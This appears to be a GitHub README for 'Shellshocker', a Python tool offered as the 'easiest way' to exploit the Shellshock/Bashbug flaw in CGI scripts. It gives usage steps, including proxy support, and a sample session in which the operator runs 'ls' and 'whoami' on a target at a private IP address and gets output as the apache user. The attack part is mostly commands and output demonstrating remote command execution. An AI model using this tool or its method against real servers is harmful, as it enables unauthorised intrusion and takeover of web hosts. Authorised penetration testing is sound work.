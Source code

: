 # Shellshocker
Shellshock easily exploitation

When you find Shellshock / Bashbug vulnerability and want the easiest way to exploit it, you can use Shellshocker.
Shellshocker suggests to avoid user-agent spoofing on-hand. In contrast to that it has a nice shell-interface.

### Usage:
  1. Run the script with python: "python shellshocker.py http://exam.com/cgi-bin/cat"
  
  
  2. If you want to use it with proxy: "python shellshocker.py http://exam.com/cgi-bin/cat 192.168.1.5:3128"


  3. Write command and hit enter


  4. Get the output and back to 3 :)


### Examples:
```sh
/.../shellshoker$ python shellshoker.py http://10.0.0.12:591/cgi-bin/cat
shellshock/command$ ls -lath /home

total 16K
dr-xr-xr-x. 22 root    root    4.0K Feb  9 21:14 ..
drwxrwxrwx.  2 bynarr  bynarr  4.0K Jan 27  2015 bynarr
drwx------   2 apophis apophis 4.0K Jan  2  2015 apophis
drwxr-xr-x.  4 root    root    4.0K Dec 30  2014 .

shellshock/command$ whoami

apache

shellshock/command$ ^C
Aborted / Invulnerable
```
